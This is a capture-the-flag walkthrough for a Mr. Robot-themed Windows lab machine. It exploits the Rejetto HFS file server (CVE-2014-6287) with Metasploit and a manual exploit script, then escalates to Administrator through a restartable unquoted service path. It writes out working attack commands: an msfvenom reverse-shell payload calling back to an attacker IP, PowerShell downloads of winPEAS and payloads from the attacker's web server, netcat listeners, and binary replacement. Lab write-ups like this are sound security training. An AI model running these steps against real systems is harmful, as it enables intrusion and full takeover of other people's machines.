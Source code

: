```
Steel Mountain
Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.
```

```
IP Address: 10.10.253.201, 10.10.230.176
```

```
Task #1 : Introduction
```
Deploy the machine.

1. Who is the employee of the month? => Bill Harper // As soon as we load the web-page there is an image opening the image in different tab shows file name to be BillHarper.png

```
Task #2 : Initial Access
```
Now you have deployed the machine, lets get an initial shell!

1. Scan the machine with nmap. What is the other port running a web server on? => 8080 //nmap -sC -sT 10.10.253.201 -oN nmap/initial.txt
2. Take a look at the other web server. What file server is running? => Rejetto Http File Server // Open the port 8080 and notice the file server link.
3. What is the CVE number to exploit this file server? => 2014-6287 // Quick googling of HFS 2.3 leads to CVE
4. Use Metasploit to get an initial shell. What is the user flag? => ********************************
	1. msfconsole
	2. search cve-2014-6287
	3. use windows/http/rejetto_hfs_exec
	4. set RHOSTS $IP
	5. set RPORT 8080
	6. set SRVHOST local ip
	7. Show payloads
	9. set payload windows/meterpreter/reverse_tcp
	10. We have a shell
	11. once meterpreter shell is up > search -f user.txt
	12. cd C:\Users\bill\Desktop // cat user.txt 

```
Task #3 : Privilege Esclation
```
Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!


1. To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

	1. wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
	2. mv file to /opt/Powersploit/Privesc
	3. chmod 600 PowerUp.ps1
	4. now from meterpreter session upload the file.
	5. now load powershell in meterpreter
	6. now enter powershell_shell this will load run the powershell in meterpreter session
	7. run the uploaded file . .\Powerup.ps1
	8. now run the command Invoke-AllChecks to perform PrivEsc
2. Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name? => AdvancedSystemCareService9
	1. Check the list displayed after Invoke-AllChecks command
	2. One of the service name AdvancedSystemCareService9 has canRestart premission set to True.
3. The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
Use msfvenom to generate a reverse shell as an Windows executable.
	1. msfvenom -p windows/shell_reverse_tcp LHOST=10.8.20.244 LPORT=4449 -e x86/shikata_ga_nai -f exe -o ASCService.exe
	2. upload the file using upload module in meterpreter
	3. in meterpreter type shell and press enter
	4. run the command to stop the AdvancedSystemCareService9 service //sc stop AdvancedSystemCareService9
	5. COPY ASCService.exe to C:\Program Files (x86)\IObit\Advanced SystemCare
4. 	What is the root flag? => ********************************
	1. sc start AdvancedSystemCareService9
	2. crt c
	3. background the meterpreter session
	4. sessions command will show you the new session created
	5. sessions -i 5 and enter
	6. cd C://Administrator/Desktop
	7. read root.txt using type command

```
Task #4 Access and Escalation Without Metasploit
```
Now let's complete the room without the use of Metasploit.
For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

1. To begin we shall be using the same CVE. However, this time let's use this exploit.
*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*
To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!
You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!
	1. Download the exploit from https://www.exploit-db.com/exploits/39161 or use searchsploit
	2. Download the netcat binary from https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe and rename it to nc.exe
	3. Now open the exploit file in text editor and change the local IP address to the one you are working on and port of your choice.
	4. Now in termail run nc -lvnp on port you entered in the exploit file
	5. Run a pythom -m SimpleHTTPServer 80 from the directory you have nc.exe in
	6. now run the exploit using python exploit.py <target_ip> <port>
	7. Notice the python web server getting populated and the netcat binary is uploaded successfully to the target server
	8. Now re run the exploit and notice you have a shell.
2. Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.
Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running. 
What powershell -c command could we run to manually find out the service name?
*Format is "powershell -c "command here"* => Get-Service
	1. In the shell run powershell -c Get-Service
	2. to upload winPEAS to toarget download the winPEAS.exe file and place it in same directory where pytom server is running
	3. Now from target shell execute powershell -c wget "http://10.8.20.244:80/winPEASx86.exe" -outfile "winPEASx64.exe"
	4. winPEAS is uploaded successfully
3. Now let's escalate to Administrator with our new found knowledge.
Generate your payload using msfvenom and pull it to the system using powershell.
Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.
First we need to stop the service which we can do like so;
sc stop AdvancedSystemCareService9
Shortly followed by;
sc start AdvancedSystemCareService9
Once this command runs, you will see you gain a shell as Administrator on our listener!
	1. Just like earlier create a payload using msfvenom and name it ASCService.exe
	2. Copy the payload in the dirctory used as python HTTPServer
	3. Now stop the AdvancedSystemCareService9 using sc stop AdvancedSystemCareService9
	4. Upload the ASCService.exe in the same directory where normal ASCService.exe is placed
	5. use the command to do so powershell -c wget "http://10.8.20.244:80/ASCService.exe" -outfile "ASCService.exe"
	6. In a terminal run nc -lvnp <given_port> and press enter
	7. Now run sc start AdvancedSystemCareService9
	8. Check the new netcat connection and notice you a root shell.
